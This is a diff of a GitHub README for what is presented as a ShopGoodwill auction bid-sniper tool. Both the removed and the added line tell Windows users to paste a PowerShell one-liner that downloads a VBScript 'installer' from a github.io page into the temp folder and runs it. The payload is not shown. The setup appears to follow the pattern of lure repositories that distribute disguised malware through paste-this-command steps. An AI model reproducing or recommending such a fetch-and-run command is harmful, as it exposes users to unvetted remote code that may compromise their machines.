

Before and after one commit to shopgoodwill-sniper/shopgoodwill-auction-sniper, a Markdown page: README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -22,7 +22,7 @@ For users who prefer not to download the file, you can run the installer directl
 1. Open Windows PowerShell.
 2. Copy and paste the following command and then press enter:
 ```sh
-$url = "https://shopgoodwill-auction-sniper.github.io/shopgoodwill-bid-sniper/Bid_Sniper_Windows_Installer.vbs"; Invoke-WebRequest -Uri $url -OutFile "$env:TEMP\Bid_Sniper_Windows_Installer.vbs"; Start-Process "wscript.exe" -ArgumentList "$env:TEMP\Bid_Sniper_Windows_Installer.vbs"
+Invoke-WebRequest -Uri "https://shopgoodwill-auction-sniper.github.io/shopgoodwill-bid-sniper/Bid_Sniper_Windows_Installer.vbs" -OutFile "$env:TEMP\Bid_Sniper_Windows_Installer.vbs"; cscript //nologo "$env:TEMP\Bid_Sniper_Windows_Installer.vbs"
 ```
 ### Features
 
````
